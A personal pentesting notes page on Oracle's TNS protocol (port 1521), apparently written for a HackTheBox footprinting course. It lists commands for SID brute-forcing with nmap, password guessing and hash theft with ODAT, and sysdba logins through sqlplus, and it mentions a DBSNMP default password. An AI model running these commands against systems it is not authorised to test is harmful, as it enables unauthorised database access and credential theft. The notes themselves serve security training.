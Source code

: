# TNS

[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Transparent Network Substrate (TNS) is a protocol owned and developed by Oracle. It's mainly used to manage [Oracle Databases](/programming-languages/databases/relational/dbms/oracle.md). 

It includes performance monitoring and analysis, error reporting, and logging tools. It supports a wide range of networking protocols such as IPX/SPX, TCP/IP, IPV6, and SSL/TLS. Communications are encrypted.

🐊️ **Port**: 1521 (TCP)

The server-side service that listens for clients is called a listener. Its configuration determines which networking protocols are allowed.
</div><div>
</div></div>

<hr class="sep-both">

## TNS Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

List databases using brute force:

```shell!
$ sudo nmap IP -p 1521 -sV --script oracle-sid-brute
```

[Oracle Database Attacking Tool](https://github.com/quentinhardy/odat) <small>(1.6k ⭐, ODAT, 2022 ☠️)</small> can be used to enumerate or exploit Oracle Databases.

```ps
$ sudo apt install odat
$ odat all -s IP
$ odat sidguesser -s IP
$ odat passwordguesser -s IP -d sid
$ odat passwordstealer -s IP -U username -P password -d sid --sysdba --get-passwords
$ odat utlfile [...] # file upload
```

📚 User may have sys dba access, try `--sysdba`.
</div><div>

We can use Oracle SQLPlus to connect to the database:

```shell!
$ sudo apt-get install oracle-instantclient-sqlplus
$ sudo updatedb
$ # if you got an error when running sqlplus
$ lpath=$(dirname `locate libsqlplus.so`) ; echo $lpath
$ sudo sh -c "echo $lpath > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
$ # connect
$ sqlplus username/password@IP/sid
$ sqlplus username/password@IP/sid as sysdba
```

📚 User may have sys dba access, try `as sysdba`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `tnsnames.ora` (client-side infos, list of db/services configurations) 
* `listener.ora` (server-side config, listener config)
* `$ORACLE_HOME/network/admin` folder
* DBSNMP service has `dbsnmp` default password
* Finger service?
* PL/SQL Exclusion List (PlsqlExclusionList)
* Remove Listener Management?
</div><div>
</div></div>
